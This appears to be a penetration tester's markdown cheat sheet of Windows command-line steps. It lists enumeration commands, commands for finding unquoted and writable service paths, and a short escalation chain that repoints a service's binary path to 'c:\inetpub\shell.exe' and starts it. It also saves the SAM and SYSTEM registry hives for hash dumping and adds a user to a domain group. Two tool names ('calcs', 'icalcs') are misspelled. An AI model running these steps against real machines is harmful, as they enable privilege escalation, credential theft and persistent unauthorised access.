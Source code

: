 # dos commands

## see running service processes
tasklist /SVC

## windows services and drivers
net start

## service paths
https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths
```dos
wmic service get name,displayname,pathname,startmode | findstr /i "auto"
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

## installed drivers
driverquery

## active network connections
netstat -ano

## show environment variables
set

## file permissions
calcs file.exe
icalcs file.exe

### access check sysinternals
upload accesschk.exe
```dos
ac.exe /accepteula -uwcqv "Authenticated Users" *
```

## services sc

### enable service
set to auto start
sc config SVC_NAME start= auto

### set binary path
sc config SVC_NAME binpath= "c:\inetpub\shell.exe"

### start service
net start SVC_NAME

## kill process by id
taskkill /f /pid 1234

## admin / system
### dump registry secretsdump hashes
reg save HKLM\sam sam
reg save HKLM\system system

## net

### add user to domain group
net group GroupName UserName /domain /add
